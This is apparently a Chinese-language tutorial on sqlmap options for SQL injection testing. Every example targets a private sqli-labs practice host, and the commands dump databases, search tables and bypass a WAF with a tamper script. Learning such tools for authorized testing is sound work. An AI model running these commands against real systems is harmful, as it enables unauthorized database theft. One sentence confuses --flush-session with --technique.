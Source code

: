 1. 「post注入」，要求使用「burp suite」抓包，将这个包中的信息，保存到一个txt文件中
2. 「-r」指定需要检测的文件

```
sqlmap -r bp.txt
```

## 「--cookie」 指定cookie信息，模拟用户登录

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' --cookie='cookie'
```

- 「-a」 等同于 「-all」  获取所有能获取的内容，会消耗很长时间。

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' -a
```

## --search 搜索数据库中是否存在指定库/表/字段，需要指定库名/表名/字段名。

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' -dbms='mysql' -T 'ser' --search
```

> 这里有两个选项，选项一表示根据关键字模糊搜索，选项二表示精准搜索：
	```
	1. as Like table names (default)
	2. as exact table names
	```
	
- 当然也可以指定 -D 数据库，-C 字段搜索使用**--flush-session**参数表示清除当前目标的会话文件。sqlmap在测试某一目标URL后会生成session文件，该文件保存了本次测试的结果信息。当我们再次测试该目标URL时，会自动加载上一次的结果

- 就比如我们已经绕过了某个waf，并且取得了数据结果

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id' --tamper "bypassDog2.py"  --level 5 --random-agent  --dump -batch
```

- 此时我们不使用脚本，使用普通的一个payload，这个时候就直接出结果了

```
sqlmap -u 'http://192.168.209.131/Less-1/?id=1' -p 'id'
```

- 如果我们想要继续之前的测试，包含waf的测试过程,就需要使用清除缓存**--flush-session**

## 「--technique」使用方法：
sqlmap -u URL --technique 注入类型选项（可多种组合）
使用**--flush-session「参数可用于指定要测试的」SQL注入类型**，默认情况下，sqlmap会测试「所有」的注入类型。如果想指定测试某几种诸如类型，可以使用**--technique**指定。sqlmap针对每一种类型，提供了字母选项，可以组合字母选项来指定多种注入类型进行测试。

> 备注：注入类型对应的参数
> B：基于布尔的盲注
> E：基于错误
> U：基于联合查询
> S：堆叠查询
> T：基于时间的盲注
> Q：内联查询
